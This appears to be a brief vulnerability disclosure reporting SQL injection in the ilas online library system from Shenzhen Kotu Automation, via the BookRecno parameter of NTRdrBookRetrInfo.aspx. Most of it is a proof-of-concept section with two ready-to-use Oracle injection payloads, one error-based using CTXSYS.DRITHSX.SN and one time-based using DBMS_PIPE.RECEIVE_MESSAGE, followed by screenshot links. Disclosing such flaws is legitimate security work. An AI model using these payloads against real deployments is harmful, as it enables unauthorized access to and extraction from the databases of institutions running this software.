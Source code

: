 

## SQL injection into ilas online library

- Shenzhen Kotu Automation New Technology Co., Ltd

- NTRdrBookRetrInfo.aspx

- Parameter: BookRecno

### POC

```
/NTRdrBookRetrInfo.aspx?BookRecno=57539' AND 5798=CTXSYS.DRITHSX.SN(5798,((CHR(114)||CHR(48)||CHR(111)||CHR(116)||CHR(104)||CHR(51)||CHR(120)||CHR(52)||CHR(57)||CHR(126))))-- wXyW

//or

/NTRdrBookRetrInfo.aspx?BookRecno=57539'||DBMS_PIPE.RECEIVE_MESSAGE('IsjT',6)||'
```

![](https://github.com/shigophilo/CVE/blob/main/imgs/20240816152134.png)

![](https://github.com/shigophilo/CVE/blob/main/imgs/image-20240816141218583.png?raw=true)